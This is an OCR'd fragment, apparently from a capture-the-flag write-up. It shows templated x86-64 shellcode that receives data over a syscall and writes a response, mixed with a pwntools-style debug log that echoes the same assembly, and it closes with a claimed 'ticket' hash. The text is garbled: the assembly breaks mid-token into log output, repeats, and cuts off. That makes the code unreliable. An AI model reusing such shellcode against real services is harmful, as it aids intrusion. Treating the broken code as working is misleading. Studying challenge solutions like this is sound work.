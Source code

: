 ````bash
    add dl,0x8
    cmp rcx,0
    jne loop
recv:
    mov rax,{syscall number}
    mov rdi,r8
    mov rsi,{The option number}
    mov rdx,0xcafec00
    syscall

copy_id_of_resp:
    mov rax, 0xcafec[DEBUG] Received 0xf8 bytes:
    b'00\n'
    b'    mov rbx, qword ptr[rax]\n'
    b'    add al,0x50\n'
    b'    mov qword ptr[rax], rbx\n'
    b'set_flags_of_resp:\n'
    b'    add al,0x14\n'
    b'    mov rbx,1\n'
    b'    mov dword ptr[rax], ebx\n'
    b'resp:\n'
    b'    xor rax,rax\n'
    b'    mov al,  {syscall number}\n'
    b'    mov rdi, {A file descriptor}\n'
    b'    mov esi'
00
    mov rbx, qword ptr[rax]
    add al,0x50
    mov qword ptr[rax], rbx
set_flags_of_resp:
    add al,0x14
    mov rbx,1
    mov dword ptr[rax], ebx
resp:
    xor rax,rax
    mov al,  {syscall number}
    mov rdi, {A file descriptor}
    mov esi[*] Got EOF while reading in interactive
````

So the ticket is `7a01505a0cfefc2f8249cb24e01a2890`
